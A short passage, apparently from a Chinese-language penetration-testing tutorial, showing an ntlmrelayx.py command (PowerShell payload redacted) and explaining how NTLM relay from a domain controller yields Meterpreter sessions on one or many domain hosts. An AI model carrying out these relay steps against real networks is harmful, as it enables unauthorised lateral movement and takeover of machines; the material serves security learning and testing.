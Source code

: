 ```plain
./ntlmrelayx.py -t ip -c "xxxxxxxxx" -smb2support

#参数说明：
-t : 单一主机
-tf: 主机文件列表，例如:ip.txt
-c : powershell命令
```

[![](assets/1701222524-63fc6eda1b83be0d2f1e8cd405353176.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128144906-39678f24-8dba-1.png)  
Step 4：当域控发起请求时，通过NTLM中继，我们可以成功获取到目标主机的Meterpreter会话，如果我们将之前的参数"-t"改为"-tf"，即可获取ip.txt文件中的所有域内主机的Meterpreter会话  
[![](assets/1701222524-351dbfc28515fd25bb0c14ece3e6f728.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231128144924-44251b84-8dba-1.png)

### NTLM中继
